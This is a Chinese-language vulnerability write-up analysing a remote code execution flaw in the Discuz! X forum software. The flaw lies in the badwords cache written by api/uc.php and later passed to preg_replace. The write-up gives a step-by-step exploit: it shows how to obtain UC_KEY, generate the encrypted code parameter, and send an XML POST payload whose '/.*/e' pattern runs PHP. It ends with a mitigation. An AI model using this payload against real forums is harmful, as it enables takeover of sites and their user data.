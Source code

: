 # Discuz! X系列远程代码执行漏洞分析

0x00 漏洞概述
=====

上周有一个朋友问我有没有办法在知道uc的appkey的情况下getshell，刚好我在原来看discuz代码时曾经有过几个相关的想法，但是一直没有仔细去看，接着这个机会去看了下，果然有个很好玩的代码执行漏洞。

0x01 漏洞根源
=====

这个问题的根源在于api/uc.php文件中的updatebadwords方法，代码如下：

```
function updatebadwords($get, $post) {
        global $_G;

        if(!API_UPDATEBADWORDS) {
            return API_RETURN_FORBIDDEN;
        }

        $data = array();
        if(is_array($post)) {
            foreach($post as $k => $v) {
                $data['findpattern'][$k] = $v['findpattern'];
                $data['replace'][$k] = $v['replacement'];
            }
        }
        $cachefile = DISCUZ_ROOT.'./uc_client/data/cache/badwords.php';
        $fp = fopen($cachefile, 'w');
        $s = "<?php\r\n";
        $s .= '$_CACHE[\'badwords\'] = '.var_export($data, TRUE).";\r\n";
        fwrite($fp, $s);
        fclose($fp);

        return API_RETURN_SUCCEED;
    }

```

方法参数中的`$get`和`$post`就是用户所传入的内容，从上面代码我们可以看出在解析`$post`内容之后，将其写入到名为`badwords`的缓存中。这里代码使用了`var_export`来避免用户传递单引号来封闭之前语句，注入php代码。

但是这里有两个关键词让我眼前一亮“`findpattern`”和“`replacement`”，也就是说这个缓存内容是会被作为执行的。那么如果我向findpattern中传入带有e参数的正则表达式，不就可以实现任意代码执行了吗？

0x02 漏洞触发
=====

全局代码搜了下`badwords`，用的地方比较少，主要集中在uc的pm和user模块中。这里我用user来举例，在`uc_client/model/user.php`文件中有一个`check_usernamecensor`方法，来校验用户名中是否有badwords，如果有的话就将他替换掉，代码如下：

```
function check_usernamecensor($username) {
    $_CACHE['badwords'] = $this->base->cache('badwords');
    $censorusername = $this->base->get_setting('censorusername');
    $censorusername = $censorusername['censorusername'];
    $censorexp = '/^('.str_replace(array('\\*', "\r\n", ' '), array('.*', '|', ''), preg_quote(($censorusername = trim($censorusername)), '/')).')$/i';
    $usernamereplaced = isset($_CACHE['badwords']['findpattern']) && !empty($_CACHE['badwords']['findpattern']) ? @preg_replace($_CACHE['badwords']['findpattern'], $_CACHE['badwords']['replace'], $username) : $username;
    if(($usernamereplaced != $username) || ($censorusername && preg_match($censorexp, $username))) {
        return FALSE;
    } else {
        return TRUE;
    }
}

```

可以看到代码中使用了preg_replace，那么如果我们的正则表达式写成“/.*/e"，就可以在使用这个方法的地方进行任意代码执行了。而这个方法在disucz中，只要是添加或者修改用户名的地方都会用到。

0x03 漏洞利用
=====

首先我们们访问`api/uc.php`（居然可以直接访问，好开心），之后我们会发现uc处理机制中比较讨厌的环节——用户传递的参数需要经过`UC_KEY`加密：

```
if(!defined('IN_UC')) {
    require_once '../source/class/class_core.php';

    $discuz = C::app();
    $discuz->init();

    require DISCUZ_ROOT.'./config/config_ucenter.php';

    $get = $post = array();

    $code = @$_GET['code'];
    parse_str(authcode($code, 'DECODE', UC_KEY), $get);

```

所以这里需要有个前提，需要知道UC_KEY或者可以操控UC_KEY。那么问题来了，我们要怎么达到这个前提呢？

我们在后台中站长`->UCenter`设置中发现有“`UCenter 通信密钥`”这个字段，这是用于操控discuz和uc连接的app key，而非高级的uc_server key，不过对于我们getshell来说足够了。在这里修改为任意值，这样我们就获取到了加密用的key值了。

![enter image description here](http://drops.javaweb.org/uploads/images/310b329b0907e1fb59c1e82534f02a751a563f4b.jpg)

从下图我们可以看到，配置文件已经被修改了:

![enter image description here](http://drops.javaweb.org/uploads/images/8bfc0fd80506345d406dbfb5f63a8c64bc112a5b.jpg)

然后我们在自己搭建的discuz的`api/uc.php`文件中添加两行代码，来加密get请求所需要的内容：

```
$a = 'time='.time().'&action=updatebadwords';
   $code = authcode($a, 'ENCODE', 'tang3');
   echo $code;exit;

```

这样我们就可以获取到加密后的code值了！

![enter image description here](http://drops.javaweb.org/uploads/images/27117932d6bcf628d8bc6fc417d2a61c34a51de8.jpg)

然后用post方法向api/uc.php发送带有正则表达式信息的xml数据包，请求头中有两个地方需要注意，一个是formhash，一个是刚才获取的code需要进行一次url编码，否则解密会出现问题。我使用的数据包如下图所示：

```
POST /discuzx3.220150602/api/uc.php?formhash=e6d7c425&code=38f8nhcm4VRgdUvoEUoEs/OpuXNJDgh0Qfep%2bT52HDEyTpHnR4PQ80%2be%2bNCyOWI0DMrXizYwbGFcM/J0Y3a8Zc/N HTTP/1.1
Host: 192.168.188.144
Proxy-Connection: keep-alive
Content-Length: 178
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://192.168.188.144
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2415.0 Safari/537.36
Content-Type: text/xml
Referer: http://192.168.188.144/discuzx3.220150602/admin.php?action=setting&operation=uc
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: FPDO_2132_saltkey=Z777zGG4; FPDO_2132_lastvisit=1432691505; FPDO_2132_ulastactivity=5830S8vsYWw6CpVTPpdtOgw6cPIZugHKtMQidjBgfdqDGbQJfSmj; so6a_2132_saltkey=JjZJ2klz; so6a_2132_lastvisit=1433227409; so6a_2132_nofavfid=1; so6a_2132_forum_lastvisit=D_2_1433233630; so6a_2132_visitedfid=2; so6a_2132_editormode_e=1; so6a_2132_smile=1D1; so6a_2132_lastcheckfeed=1%7C1433239071; XDEBUG_SESSION=PHPSTORM; so6a_2132_ulastactivity=5238LLJuvhc%2FhKaXEaIzRYm5hbbEAlOy3RL8Lc92aDETkVQJidZY; so6a_2132_auth=96c9HcEpd8OxPZh6GE5stu4Uov%2BUncVwxWbetMvF%2BFZLNuEVj8VoiFyDMkWkXdQ81eg%2F6522CLnsHbkzv%2Fdu; so6a_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; so6a_2132_creditbase=0D0D10D0D0D0D0D0D0; so6a_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; so6a_2132_checkupgrade=1; so6a_2132_lastact=1433476664%09admin.php%09; so6a_2132_sid=LE2xb1

<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
    <item id="balabala">
        <item id="findpattern">/.*/e</item>
        <item id="replacement">phpinfo();</item>
    </item>
</root>

```

发送后可以发现`uc_client/data/cache`目录下的`badwords.php`内容变为了我们刚刚设定的正则表达式的样子：

![enter image description here](http://drops.javaweb.org/uploads/images/1a1ddf72700bc0e90c2705cdd231383e12313062.jpg)

之后利用方法就有很多种了，可以通过增加一个用户来实现代码执行，也可以通过发消息的方式来触发，这里我以添加一个用户为例。

![enter image description here](http://drops.javaweb.org/uploads/images/41d4dd3a19c94abd5961c909023b0276a7b94334.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/be960bd2045be25eb155520a1dfbace446fa8eb8.jpg)

0x04 漏洞总结
=====

### 漏洞小结

1.影响范围个人评价为“高”，Discuz! X系列cms在国内使用范围极广，几乎所有中小型论坛都是用它搭建的。

2.危害性个人评价为“高”，这个漏洞不只是单纯的后台代码执行，在uc_app key泄露的情况下也是可以利用的，很多转账对于uc_app key重视程度不是很大，所以相对来说危害性还是非常高的。

### 防护方案

限制用户提交正则表达式的内容，允许提交正则表达式就可以了，就不要让用户提交正则参数了吧。而且纯粹的使用正则表达式替换字符串，str_replace不可以吗？